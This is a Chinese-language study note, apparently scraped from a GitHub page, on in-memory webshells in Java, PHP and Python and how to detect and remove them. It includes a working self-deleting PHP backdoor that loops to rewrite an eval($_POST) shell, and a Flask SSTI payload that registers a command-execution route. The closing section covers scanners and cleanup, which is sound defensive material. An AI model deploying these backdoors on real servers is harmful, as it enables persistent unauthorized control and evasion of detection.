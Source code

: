 当注入文件木马后，如冰蝎，哥斯拉，还可以注入内存马MemoryShell，使得权限维持。
也可以利用漏洞注入内存马。
注入内存马后，可以url上执行命令。也可以使用webshell管理工具连接，如冰蝎。


## **webshell内存马特征及原理**
![image-20240506130214713](http://cdn.33129999.xyz/mk_img/image-20240506130214713.png)

所有类型内存马：<https://www.cnblogs.com/lcxblogs/articles/15238924.html>
Webshell内存马，是在内存中写入恶意后门和木马并执行，达到远程控制Web服务器的一类内存马，其瞄准了企业的对外窗口：网站、应用。但传统的Webshell都是基于文件类型的，黑客可以利用上传工具或网站漏洞植入木马，区别在于Webshell内存马是无文件马，利用中间件的进程执行某些恶意代码（根据配置文件注册对象到内存中），不会有文件落地，给检测带来巨大难度。
内存webshell相比于常规webshell更容易躲避传统安全监测设备的检测，通常被用来做持久化，规避检测，持续驻留目标服务器。无文件攻击、内存Webshell、进程注入等基于内存的攻击手段也受到了大多数攻击者青睐。

## **java内存马**
内存中的对象找不到对应的.class文件中的类型。
java内存马原理：
<https://www.freebuf.com/articles/web/274466.html>
<https://github.com/Getshell/Mshell>

JAVA有不同类型的内存马：
手动上传一般是.jsp文件，访问后注入成内存马。
工具注入的内存马可以任意后缀。
分类：
1、按攻击思路，大致分为：
-Java Instrumentation类（Agent型）
-Servlet-api类（Servlet型、Filter型、Listener型）
-Spring类（Controller型、Interceptor型）
2、按注入的对象分为：tomcat、weblogic、shiro等类型。
![image-20240506131339198](http://cdn.33129999.xyz/mk_img/image-20240506131339198.png)
演示：
1、Servlet-api类（Servlet型、Filter型、Listener型）
2、哥斯拉，冰蝎内存马功能使用


^
## **php内存马**
php内存马也就是php不死马是将不死马启动后删除本身，在内存中执行死循环监听生成木马，使管理员无法删除木马文件。
```
set_time_limit()函数：设置允许脚本运行的时间，单位为秒（如果设置该运行时间，sleep()函数在执行程序时的持续时间将会被忽略掉）
ignore_user_abort()函数：函数设置与客户机断开是否会终止脚本的执行（如果设置为True，则忽略与用户的断开）
unlink(FILE)函数：删除文件（防止文件落地被检测工具查杀）
file_put_contents函数：将一个字符串写入该文件中
usleep函数：延迟执行当前脚本数微秒，即条件竞争

<?php
ignore_user_abort(true);
set_time_limit(0);
@unlink(__FILE__);
$file = '.HH.php';
$code = '<?php @eval($_POST[\'c\']); ?>';
while(1){ 
file_put_contents($file,$code);
 usleep(5000); } 
?>
```
^
## **python内存马**
借助flask框架的ssti注入传参写入内存马。
```
/?param={{url_for.__globals__[%27__b
uiltins__%27][%27eval%27](%22app.add_url_rule(%27/shell%27,%20%27
shell%27,%20lambda%20:__import__(%27os%27).popen(_request_ctx_sta
ck.top.request.args.get(%27cmd%27,%20%27whoami%27)).read())%22,{%
27_request_ctx_stack%27:url_for.__globals__[%27_request_ctx_stack
%27],%27app%27:url_for.__globals__[%27current_app%27]})}}
```
执行命令
```
/shell?cmd=ls
```



^
## **webshell内存马查杀**
内存马情况，常规查杀找不出来。

典型：哥斯拉文件木马getshell后，可以植入.net,php,java内存马。

查杀：
asp.net内存马，检测及查杀工具：上传aspx-memshell-scanner.aspx脚本文件到网站web目录，访问即可检测查杀。
php内存马，常规后门查杀检测后，中间件重启后删除文件即可。

java内存马，重启不行。

1.用河马(主机安装后，使用命令一键检测java，.net的内存马，hmws.exe javascan，找到缓存路径删除重启即可)。
>linux版，专用于Java类内存马检测自动识别包括Tomcat、Weblogic、Jboss环境；Spring等打包环境支持手动指定进程方式，因此第三方Java应用（gitlab，ES）都可以检测；
>Windows版，Java内存马检测，Java6+; OA系统、办公系统；
>.Net内存马，IIS等场景下的.net内存马检测。
>全面覆盖内存马常见场景，可检测冰蝎、哥斯拉等内存马利用工具注入的内存马。

2.对于tomcat，上传tomcat-memshell-scanner.jsp脚本文件到网站web目录，访问即可检测查杀。
可以直接下载源码和kill，如果无法分析，可以下载dump源码后分析是否为木马代码。

3.冰蝎的agent内存马有反查杀，只能重启服务，加固入口。



